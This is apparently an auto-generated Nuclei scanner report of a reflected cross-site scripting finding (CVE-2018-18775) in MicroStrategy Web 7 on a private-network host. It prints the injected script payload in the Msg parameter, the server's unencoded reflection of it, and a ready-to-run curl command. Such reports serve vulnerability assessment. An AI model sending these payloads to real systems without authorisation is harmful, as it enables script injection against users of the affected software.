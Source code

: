 ### Cross Site Scripting in Microstrategy Web version 7 (CVE-2018-18775) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2018-18775**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/microstrategy7/Login.asp?Server=Server001&Project=Project001&Port=0&Uid=Uid001&Msg=%22%3E%3Cscript%3Ealert(/2AJ82NwlIIEVRpqPzYaKhmx3sKf/)%3B%3C%2Fscript%3E%3C

**Timestamp**: Wed Jun 8 20:22:17 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Cross Site Scripting in Microstrategy Web version 7 |
| Authors | 0x_akoko |
| Tags | cve, cve2018, microstrategy, xss |
| Severity | medium |
| Description | Microstrategy Web, version 7, does not sufficiently encode user-controlled inputs, resulting in a Cross-Site Scripting (XSS) vulnerability via the Login.asp Msg parameter |
| CVSS-Metrics | [CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2018-18775](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2018-18775) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /microstrategy7/Login.asp?Server=Server001&Project=Project001&Port=0&Uid=Uid001&Msg=%22%3E%3Cscript%3Ealert(/2AJ82NwlIIEVRpqPzYaKhmx3sKf/)%3B%3C%2Fscript%3E%3C HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686 on x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2820.59 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 282
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/microstrategy7/Login.asp?Server=Server001&Project=Project001&Port=0&Uid=Uid001&Msg="><script>alert(/2AJ82NwlIIEVRpqPzYaKhmx3sKf/);</script><</B> was not found.</BODY></HTML>
```

References: 
- https://www.exploit-db.com/exploits/45755
- http://packetstormsecurity.com/files/150059/microstrategy-web-7-cross-site-scripting-traversal.html
- https://www.exploit-db.com/exploits/45755/

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686 on x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2820.59 Safari/537.36' 'http://192.168.198.179:8080/microstrategy7/Login.asp?Server=Server001&Project=Project001&Port=0&Uid=Uid001&Msg=%22%3E%3Cscript%3Ealert(/2AJ82NwlIIEVRpqPzYaKhmx3sKf/)%3B%3C%2Fscript%3E%3C'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)